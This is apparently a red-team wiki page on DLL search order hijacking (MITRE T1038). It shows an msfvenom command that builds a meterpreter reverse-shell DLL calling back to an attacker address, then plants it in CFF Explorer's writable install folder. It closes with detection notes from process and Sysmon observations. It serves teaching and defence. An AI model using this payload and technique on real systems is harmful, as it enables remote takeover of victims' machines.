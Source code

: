 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endtab %}
{% endtabs %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded \(note the NAME NOT FOUND\) as it does not exist in the given path:

![](../../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll` 

![](../../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../../.gitbook/assets/dll-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

  


